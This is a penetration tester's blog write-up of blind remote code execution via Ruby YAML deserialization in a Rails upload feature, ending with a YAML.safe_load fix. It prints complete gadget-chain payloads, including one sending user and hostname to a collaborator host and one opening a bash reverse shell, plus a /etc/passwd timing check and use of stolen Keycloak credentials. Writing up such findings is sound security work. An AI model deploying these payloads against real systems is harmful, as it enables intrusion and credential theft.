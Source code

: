 ```yaml
---
layout: post
title:  "Blind Remote Code Execution through YAML Deserialization"
date:   2021-06-09
---
```


During an application security assessment of a Ruby on Rails project, I identified upload functionality that allowed users to submit text, CSV, and YAML files. The YAML option stood out due to its potential as a deserialization vulnerability.  

After several uploads, I found that the process validated file contents before uploading them to Azure blob storage. YAML files starting with **&#45;&#45;&#45;!ruby/object:BadValue** triggered a fatal status, while other invalid YAML files returned an error status. This fatal status was the only indicator that the upload process might be vulnerable.

<figure>
  <img src="/assets/img/2021/blind-rce-status-indicator.png">
  <figcaption>Figure 1 – Fatal status on poc2.yml</figcaption>
</figure>  

Several researchers previously identified gadget chains in Ruby that could lead to code execution, as detailed in the GitHub Gist ["Ruby YAML Exploits."](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

I first tested the Gem::Requirement chain using nslookup and curl commands to a Burp collaborator but received no DNS lookup. After this chain failed, I tested the Gem::Installer chain with the same commands, but again no DNS lookup occurred.

After several attempts, I decided to try the sleep command for 10 minutes with the Gem::Installer chain.

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve
```

Uploading the YAML file caused the status icon to display a loading animation for 10 minutes, indicating that the sleep command executed successfully.

<figure>
  <img src="/assets/img/2021/yaml-deserial-rce-sleep-1.png">
  <figcaption>Figure 2 – Start of the upload</figcaption>
</figure>

<figure>
  <img src="/assets/img/2021/yaml-deserial-rce-sleep-2.png">
  <figcaption>Figure 3 – Nine minutes after the file was uploaded</figcaption>
</figure> 

After many failed attempts, I finally achieved success! While the sleep command doesn't demonstrate significant impact, it confirmed that code execution was possible. Although it could be used for data exfiltration through a Bash if condition (see below), this would be time-consuming and tedious.
```bash
if [ -f /etc/passwd ]; then sleep 5; fi
```  

After further consideration, I tried the bash -c command, echoing to **/dev/tcp/:remote-server/443**, hoping for a DNS lookup. To my surprise, I received a DNS lookup and was able to exfiltrate the user and server hostname.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.wkkib01k9lsnq9qm2pogo10tmksagz.burpcollaborator.net/443'"
         method_id: :resolve
```

<figure>
  <img src="/assets/img/2021/yaml-rce.png">
  <figcaption>Figure 4 – Exfiltrated user and server hostname through DNS lookup</figcaption>
</figure> 

Upon reviewing the server hostnames, I noticed they changed each time the same file was re-uploaded. It seemed there wasn’t much impact, as an Azure Serverless function or worker was likely being spun up. To assess potential impact, I needed to confirm access to environment variables for sensitive information.

I then decided to attempt a reverse shell on port 443, as it’s less likely to be filtered outbound, using the following YAML file.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/reverseshell.example.com/443 0>&1'"
         method_id: :resolve
```

Success! I gained a reverse shell and ran printenv, which revealed sensitive information, including Keycloak admin credentials, Redis, and Azure DB details.

<figure>
  <img src="/assets/img/2021/reverse-shell-env-vars.png">
  <figcaption>Figure 5 – Listed server environment variables</figcaption>
</figure> 

The server was not an Azure function, but a Kubernetes pod, likely running on Azure Kubernetes. Using the Keycloak admin credentials, I logged into Keycloak's master realm as the admin user through the following URL:  
**https://redacted.com/auth/realms/master/protocol/openid-connect/auth?client_id=account-console&redirect_uri=https%3A%2F%2Fredacted.com%2Fauth%2Frealms%2Fmaster%2Faccount%2F&state=:stateUUID&response_mode=fragment&response_type=code&scope=openid&nonce=:nonceUUID&code_challenge=:challengeValue&code_challenge_method=S256**

The state UUID, nonce UUID, and code challenge values were obtained from the web application's realm.

Given the high impact, the report was sent immediately, with remediation suggesting replacing Ruby's YAML.load() with YAML.safe_load(), as YAML.load() was likely the cause of the vulnerability.

References:  
https://ruby-doc.org/stdlib-2.6.1/libdoc/psych/rdoc/Psych.html  
https://www.elttam.com/blog/ruby-deserialization/  
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
